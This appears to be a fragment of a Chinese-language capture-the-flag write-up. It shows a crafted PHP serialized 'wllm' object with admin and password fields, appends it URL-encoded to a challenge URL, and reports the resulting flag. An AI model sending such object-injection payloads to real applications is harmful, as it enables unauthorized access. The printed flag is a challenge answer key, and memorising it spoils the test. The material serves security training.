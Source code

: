 ```
O:4:"wllm":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";}
```

**再把这个值拼接到url上**

```
http://node5.anna.nssctf.cn:28965/cl45s.php?
p=O:4:%22wllm%22:2:{s:5:%22admin%22;s:5:%22admin%22;s:6:%22passwd%22;s:3:%22ctf%22;}
```

**得到flag  `NSSCTF{9464157d-b346-447e-a4c3-9ad6395f71d5}`**

![image-20231102114430253](https://rtyu-1317440738.cos.ap-guangzhou.myqcloud.com/image-20231102114430253.webp) 
